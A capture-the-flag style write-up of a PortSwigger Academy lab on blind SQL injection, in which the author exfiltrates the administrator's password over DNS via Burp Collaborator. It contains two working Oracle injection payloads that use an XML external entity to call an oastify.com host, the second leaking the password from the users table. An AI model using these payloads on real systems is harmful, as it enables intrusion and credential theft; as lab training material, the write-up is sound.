






Write-up by wook413

# Lab: Blind SQL injection with out-of-band data exfiltration

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---

This lab built directly on the previous one, but simply triggering a DNS lookup was no longer enough. This time the goal was to actually exfiltrate data through the out-of-band channel.



I started by copy-pasting the Oracle payload from the cheat sheet again. I replaced the placeholder subdomain with a fresh one issued from Burp Collaborator. As a proof of concept, I had the `SELECT` statement pull the literal string `'wook'` from the `dual` table rather than querying anything sensitive.

```
g6bKAL3m1OxMfls5' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT 'wook' FROM dual)||'.3789whjjya2qywyo6gvi24cvemke84wt.oastify.com/"> %remote;]>'),'/l') FROM dual)-- 
```



After sending the request and polling Collaborator, the interaction log showed an A-record DNS lookup for `wook.3789whjjya2qywyo6gvi24cvemke84wt.oastify.com` confirming that arbitrary data selected by the query was indeed being prepended to the subdomain and leaked via DNS.



Once I had confirmed the technique worked, I swapped out the string literal for a subquery that retrieved the administrator's password hash directly from the `users` table:

```
g6bKAL3m1OxMfls5' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username = 'administrator')||'.3789whjjya2qywyo6gvi24cvemke84wt.oastify.com/"> %remote;]>'),'/l') FROM dual)-- 
```

I sent this request and polled Collaborator once more. This time the DNS lookup that came through had the administrator's actual password concatenated onto the front of the subdomain, right there in the log.

` rogwml2dqt3ie6mzk02u.3789whjjya2qywyo6gvi24cvemke84wt.oastify.com`



I copied it out, logged in as `administrator` with the retrieved password.



### Solved!

